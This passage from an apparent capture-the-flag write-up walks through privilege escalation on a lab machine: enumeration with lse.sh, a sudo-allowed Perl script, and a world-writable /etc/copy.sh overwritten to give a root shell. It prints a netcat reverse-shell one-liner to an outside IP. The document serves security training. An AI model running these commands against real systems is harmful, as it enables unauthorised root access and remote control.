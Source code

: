 MySQL creds. Something to keep in mind for later on.

MySQL Login success. Version info 
`Server version: 5.7.28-0ubuntu0.16.04.2`

3) Privilege Escalation

Let's try running a PrivEsc script to find some vectors

Link to lse.sh => https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh

Uploaded and running `lse.sh -i -l 1` for privesc vectors

Interesting stuff from `lse.sh` results
```bash
[*] usr020 Are there other users in administrative groups?................. yes!
---
adm:x:4:syslog,itguy
sudo:x:27:itguy

[!] sud010 Can we list sudo commands without a password?................... yes!
---
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

This looks interesting. So let's explore this a bit. 

Looks like we can run `sudo /usr/bin/perl /home/itguy/backup.pl` as anyone

Contents of backup.pl, which is readable by `www-data`
```bash
www-data@THM-Chal:/home/itguy$ cat backup.pl 
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
Wish we could edit this, but we can't. What about `/etc/copy.sh` ?

```bash
www-data@THM-Chal:/home/itguy$ ls -l /etc/copy.sh; cat /etc/copy.sh 
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Looks like `/etc/copy.sh` is world-writable. sysadmin originally set it up to send a reverse shell to another machine. But we will reconfigure it to execute bash and get a root shell.

After modification
```bash
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
/bin/bash -i
```

Time for action!
```bash
www-data@THM-Chal:/home/itguy$ sudo -u root /usr/bin/perl /home/itguy/backup.pl
root@THM-Chal:/home/itguy# id
uid=0(root) gid=0(root) groups=0(root)
```

Woohoo! And that's that!